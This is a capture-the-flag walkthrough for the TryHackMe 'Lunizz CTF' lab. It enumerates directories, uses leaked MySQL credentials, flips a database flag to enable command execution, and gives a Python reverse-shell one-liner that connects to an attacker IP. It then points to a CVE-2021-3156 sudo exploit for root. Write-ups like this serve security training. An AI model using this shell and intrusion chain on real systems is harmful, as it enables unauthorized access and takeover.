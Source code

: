 ```yaml
---
description: vulnerable sudo version.
---
```


# 21 - Lunizz CTF

Room Link --> [https://tryhackme.com/room/lunizzctfnd](https://tryhackme.com/room/lunizzctfnd)

### Enumeration

#### Gobuster

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://10.10.68.127 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt -t 500 2>/dev/null

# output:
/instructions.txt
/whatever
/hidden
```
{% endcode %}

Navigating to "/whatever" gives us a command injection interface. But we can't execute any cmds.

Seems we found a credential at "/instructions.txt". Seems like a mysql login.

{% code lineNumbers="true" %}
```bash
runcheck:CTF_script_cave_changeme

# login mysql
mysql -h 10.10.68.127 -u runcheck -p

# enumerate the db.
show databases;
use <dbname>;
show tables;
select * from <tablename>
```
{% endcode %}

<figure><img src=".gitbook/assets/image (10).png" alt=""><figcaption><p>logged in</p></figcaption></figure>

We got the column name --> "run".

From the Table “runcheck”, we were able to find the name of the column which looks to be controlling the command executer as it’s value is 0 currently. We can update this value to 1 and check if we can exeute something.

```
update runcheck set run=1;
```

<figure><img src=".gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

And we can execute cmds now.

<figure><img src=".gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Initial Access

#### Gaining Rev shell.

Start a nc listener, then i used a python one-liner rev shell from payloadallthings to obtain shell.

{% code overflow="wrap" lineNumbers="true" %}
```bash
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.18.88.214",4445));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```
{% endcode %}

<figure><img src=".gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Priv Esc

I used "linux-exploit-suggester.sh" to enumerate the machine.

<figure><img src=".gitbook/assets/image (5) (1) (1).png" alt=""><figcaption></figcaption></figure>

It seems like this version of `sudo` is vulnerable to the [CVE-2021-3156](https://blog.qualys.com/vulnerabilities-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit) vulnerability. This exploit abuses all sudo versions lower than version `1.8.31`. This vulnerability gives you `root` privileges right away! We should also check which Ubuntu version is installed by running: `lsb_release -a`.&#x20;

Follow the instructions here to get root.

[https://github.com/CptGibbon/CVE-2021-3156](https://github.com/CptGibbon/CVE-2021-3156)

